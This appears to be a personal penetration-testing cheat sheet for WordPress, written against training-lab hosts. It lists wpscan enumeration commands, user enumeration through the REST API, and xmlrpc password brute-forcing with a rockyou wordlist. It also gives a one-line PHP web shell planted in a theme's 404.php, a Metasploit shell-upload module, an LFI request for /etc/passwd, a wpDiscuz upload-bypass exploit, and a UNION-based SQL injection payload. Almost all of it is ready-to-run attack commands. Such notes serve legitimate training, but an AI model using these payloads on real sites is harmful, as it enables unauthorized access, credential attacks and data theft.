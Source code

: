 ### Footprinting + Enumeration
```bash
wpscan --url $url 
wpscan --url $url -e ap
wpscan --url $url -e vp     <- Vulnerable plugins
wpscan --url $url -e cb     <- Config backups
wpscan --url $url -t 500 -e p --plugins-detection aggressive
curl -s http://metapress.htb/ | grep plugins

wpscan --url $url -e u -t 500    <- Enumerate Users
wpscan --url $url --password-attack xmlrpc -t 500 -U ilfreightwp -P ~/rockyou.txt
```

```bash
curl -s http://blog.inlanefreight.local | grep WordPress
```

```bash
curl http://inlanefreight.local/robots.txt

User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://blog.inlanefreight.local/wp-sitemap.xml
```
##### Themes + Plugins
WordPress stores its plugins in the `wp-content/plugins` directory. This folder is helpful to enumerate vulnerable plugins. Themes are stored in the `wp-content/themes` directory. These files should be carefully enumerated as they may lead to RCE.

```bash
curl -s http://blog.inlanefreight.local/ | grep themes
curl -s http://metapress.htb/ | grep plugins
```
Visiting `/wp-content/plugins/realplugin` can uncover `readme`'s with the version

##### User enumeration
We can discover users by attempting to login via `/wp-admin` and the error messages they produce. [Good resource](https://gosecure.ai/blog/2021/03/16/6-ways-to-enumerate-wordpress-users/)
```bash
curl http://blog.inlanefreight.local/?rest_route=/wp/v2/users
```

### Exploitation
#### **Login bruteforcing**
Two methods, `xmlrpc`(faster api) and the wp-login.
```bash
wpscan --password-attack xmlrpc -t 500 -U ilfreightwp -P ~/rockyou.txt --url http://ir.inlanefreight.local
```

#### RCE
This is possible with Administrative access to the admin panel. This can be done by adding a single line of PHP code within an unused theme then calling upon it.
This should be on an uncommon page like `404.php`
```php
system($_GET[0]);
```

```bash
curl http://ir.inlanefreight.local/wp-content/themes/twentytwenty/404.php?0=id
```
This can also be done with Metasploit (`rhost` and `vhost`must be set)
```bash
use exploit/unix/webapp/wp_admin_shell_upload 
```


#### Vulnerable Plugins
##### mail-masta
This plugin suffers from two vulnerabilities [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438) and a [Local File Inclusion](https://www.exploit-db.com/exploits/50226).
```bash
curl -s http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
##### wpDiscuz
Based on the version number (7.0.4), this [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution. The crux of the vulnerability is a file upload bypass. 
```bash
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```

#### b2i investor tools
```bash
curl http://ir.inlanefreight.local/wp-content/plugins/wp-business-intelligence/view.php
?t=1337+union+select+1,2,3,group_concat(table_name),5,6,7,8,9,10,11+from+information_schema.tables+where+table_schema=database()--+
```
